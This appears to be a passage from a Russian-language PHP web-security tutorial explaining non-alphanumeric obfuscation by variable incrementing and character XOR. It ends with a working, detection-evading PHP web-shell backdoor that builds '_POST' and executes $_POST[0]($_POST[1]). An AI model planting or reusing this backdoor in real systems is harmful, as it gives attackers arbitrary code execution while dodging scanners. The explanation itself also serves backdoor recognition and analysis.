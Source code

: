 ```php
<?php
    function B(){
        echo "Hello Angel_Kitty";
    }
    $_++;
    $__= "?" ^ "}";
    $__();
?>
```

![answer2](../assets/img/web/answer2.png)

Давайте вместе проанализируем приведенный выше код:

1. `$_++; ` Эта строка кода означает увеличение переменной с именем `"_"`, значения по умолчанию переменной undefined
   в `PHP` `null`, `null == False == 0`, мы можем получить число, автоматически увеличивая неопределенную переменную без
   использования каких-либо чисел.
2. `$__= "?" ^ "}";` XOR персонажей `?` and `}` и получите результат `B`, присвоенный переменной с именем `__` (два
   символа подчеркивания)
3. `$__(); ` Благодаря вышеуказанной операции присваивания значение переменной `$__` равно `B`, поэтому эту строку можно
   рассматривать как `B()`. В `PHP` эта строка кода представляет, что функция `B` вызывается, поэтому результат - 
   `Hello Angel_Kitty`. В `PHP` мы можем рассматривать строки как функции.

Видя это, я считаю, что если вы видите похожий бэкдор `PHP`, не стоит так запутываться. Вы можете использовать анализ
предложений кода бэкдора, чтобы понять, какие функции бэкдор хочет выполнять.

Мы хотим использовать этот бэкдор для создания строк, которые обходят обнаружение и полезны для нас, таких, как `_POST`,
`system`, `call_user_func_array` или все, что нам нужно.

Вот очень простой не буквенно-цифровой бэкдор `PHP`:

```php
<?php
    @$_++; // $_ = 1
    $__ = ("#" ^ "|"); // $__ = _
    $__ .= ("." ^ "~"); // _P
    $__ .= ("/" ^ "`"); // _PO
    $__ .= ("|" ^ "/"); // _POS
    $__ .= ("{" ^ "/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```
